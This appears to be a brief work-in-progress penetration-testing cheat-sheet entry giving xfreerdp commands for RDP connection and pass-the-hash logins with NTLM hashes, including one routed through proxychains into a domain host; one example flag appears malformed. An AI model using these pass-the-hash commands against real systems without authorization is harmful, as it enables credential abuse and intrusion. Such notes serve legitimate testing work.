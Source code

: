 
>[!IMPORTANT]
> This note is a work-in-progress.


```shell
# Connect via RDP
xfreerdp /v:<ip_address>:<port> /u:<user> /p:<password> /dynamic-resolution +clipboard

# Pass-The-Hash (NTLM)
xfreerdp /u:<user> /pth:<ntlm_hash> /v:<ip_address>

# Example: PTH in a domain through a proxy
proxychains xfreerdp /:Joe.Schmoe /d:example.com /pth:1234qwer1234qwer1234 /v:192.168.1.10
```